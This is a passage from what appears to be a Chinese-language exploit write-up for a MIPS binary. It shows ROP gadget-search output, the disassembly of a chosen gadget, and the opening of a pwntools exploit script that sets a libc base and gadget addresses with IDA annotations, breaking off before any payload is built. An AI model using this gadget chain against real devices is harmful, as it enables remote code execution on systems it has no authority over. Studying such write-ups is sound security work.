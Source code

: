   ```
  |  0x00130344  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00132C58  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00133888  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x0013733C  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137354  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137CDC  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137CF4  |  move $t9,$a1                                        |  jr    $a1                             |
  ----------------------------------------------------------------------------------------------------------------
  Found 11 matching gadgets
  ```
  这里使用的是 
  ```
  .text:0012568C                 move    $t9, $a1
  .text:00125690                 move    $a3, $v0
  .text:00125694                 move    $a1, $a0
  .text:00125698                 jalr    $t9
  ```
  最后的 exploit

  ```python
  from pwn import *
  
  # context.log_level = 'debug'
  
  
  libc_base = 0x7f61f000
  set_a0_addr = 0xE2660
  #.text:000E2660                 move    $t9, $s2
  #.text:000E2664                 jalr    $t9 ; sigprocmask
  #.text:000E2668                 li      $a0, 1
  set_s2_addr = 0xB2EE8
  #.text:000B2EE8                 lw      $ra, 52($sp)
  #.text:000B2EF0                 lw      $s6, 48($sp)
  #.text:000B2EF4                 lw      $s5, 44($sp)
  #.text:000B2EF8                 lw      $s4, 40($sp)
  #.text:000B2EFC                 lw      $s3, 36($sp)
  #.text:000B2F00                 lw      $s2, 32($sp)
  #.text:000B2F04                 lw      $s1, 28($sp)
  #.text:000B2F08                 lw      $s0, 24($sp)
  #.text:000B2F0C                 jr      $ra
  jr_t9_jr_ra = 0x949EC
  # .text:000949EC                 move    $t9, $s3
  # .text:000949F0                 jalr    $t9 ; uselocale
  # .text:000949F4                 move    $s0, $v0
  # .text:000949F8
  # .text:000949F8 loc_949F8:                               # CODE XREF: strerror_l+15C↓j
  # .text:000949F8                 lw      $ra, 0x34($sp)
  # .text:000949FC                 move    $v0, $s0
  # .text:00094A00                 lw      $s3, 0x24+var_sC($sp)
  # .text:00094A04                 lw      $s2, 0x24+var_s8($sp)
  # .text:00094A08                 lw      $s1, 0x24+var_s4($sp)
  # .text:00094A0C                 lw      $s0, 0x24+var_s0($sp)
  # .text:00094A10                 jr      $ra
  addiu_a1_sp = 0x95B74
  # .text:00095B74                 addiu   $a1, $sp, 52
  # .text:00095B78                 sw      $zero, 24($sp)
  ```